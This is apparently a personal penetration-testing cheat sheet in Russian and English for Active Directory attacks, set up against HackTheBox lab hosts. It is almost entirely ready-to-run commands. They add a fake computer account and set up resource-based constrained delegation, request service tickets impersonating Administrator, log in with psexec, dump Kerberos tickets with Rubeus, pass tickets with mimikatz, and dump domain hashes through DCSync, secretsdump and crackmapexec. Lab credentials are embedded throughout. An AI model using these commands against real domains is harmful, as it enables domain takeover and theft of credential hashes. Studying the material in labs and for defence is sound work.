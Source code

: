   		python3 rbcd.py -dc-ip 10.129.205.35 -t DC01 -f HACKTHEBOX inlanefreight\\carole.holmes:Y3t4n0th3rP4ssw0rd
		Sudo certipy-ad auth -pfx sql.pfx -domain domain.local -dc-ip 192.168.134.10 (DC) -ldap-shell
  				set_rbcd SQL$ HACK$
				перед этим создаем фейковый хост
  				addcomputer.py -computer-name 'HACKTHEBOX$' -computer-pass Hackthebox123+\! -dc-ip 10.129.205.35 inlanefreight.local/carole.holmes  		

		или
		
		addcomputer.py -computer-name 'HACKTHEBOX$' -computer-pass Hackthebox123+\! -dc-ip 10.129.205.35 inlanefreight.local/carole.holmes:Y3t4n0th3rP4ssw0rd

  		прописываем ACL на конечном хосте DC01

  		python3 rbcd.py -dc-ip 10.129.205.35 -t DC01 -f HACKTHEBOX inlanefreight\\carole.holmes:Y3t4n0th3rP4ssw0rd

  		Получаем TGT TGS self and Proxy

  		getST.py -spn cifs/DC01.inlanefreight.local -impersonate Administrator -dc-ip 10.129.205.35 inlanefreight.local/HACKTHEBOX:Hackthebox123+\!
			
  		Запрашивает тикет от имени фейкового хоста с ипмперсонификацией
		getST.py -spn cifs(ldap)/sql.domain.local -impersonate Administrator -dc-ip 192.168.134.10 domain.local/HACK:Password123

  		и логинимся с тикетом
		export KRB5CCNAME=administrator.ccache
  		Psexec.py -k -no-pass sql.domain.local -dc-ip 192.168.134.11

  		или dcsync
* DCSYNC

		Rubeus triage
  		Rubeus dump
		билет в файл и убираем пробелы
затем

  		[IO.File]::WriteAllBytes("C:\Users\spirit\Desktop\DC.kirbi", [Convert]::FromBase64String("Base64"))  (путь только полный!!!! а  base 64 вставляем билет без пробелов)

      		kerberos::ptt DC.kirbi
		lsadump::dcsync /domain:domain.local /user:Administrator
или
  		
		nano ticket.kirbi_b64       
  		base64 -d ticket.kirbi_b64 > ticket_real.kirbi
   		ticketConverter.py ticket_real.kirbi ticket.ccache
		export KRB5CCNAME=ticket.ccache 
        	crackmapexec smb dc.domain.local -k --use-kcache --ntds

или
  		KRB5CCNAME='DomainAdmin.ccache' secretsdump.py -just-dc-user 'krbtgt' -k -no-pass -dc-ip 'DomainController.domain.local' @'DomainController.domain.local'
		secretsdump.py -k -no-pass -dc-ip '10.129.205.35' @'dc01.inlanefreight.local'
    		
# NTLMRELAY когда у одного компа есть админские права для другого
